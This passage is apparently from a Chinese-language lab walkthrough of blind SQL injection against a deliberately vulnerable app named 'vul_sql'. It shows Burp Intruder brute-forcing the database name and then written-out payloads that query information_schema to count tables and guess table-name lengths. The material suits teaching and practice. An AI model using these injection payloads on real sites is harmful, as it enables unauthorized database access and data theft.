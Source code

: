 然后点击 `Start attack` ，爆破完成之后点击 `Length` 进行排序<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614932238539.png)

我们把爆破结果摘选出来
> 1 > 118--v
> 2 > 117--u
> 3 > 108--l
> 4 > 95  --_
> 5 > 115--s
> 6 > 113--q
> 7 > 108--l
> database_name：vul_sql

得到数据库之后，接下来进行表的猜解

跟数据库操作差不多，先判断表的个数 `t%' and (select count(table_name) from information_schema.tables where table_schema='vul_sql')=3 %23`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614934470673.png)

判断出表个数为 3 个，然后对每个表进行爆破猜解，步骤跟猜解数据库的时候差不多

猜解第一个表的长度 `t%' and (select length(concat(table_name)) from information_schema.tables where table_schema='vul_sql' limit 0,1)=5 %23` ，长度为5<br>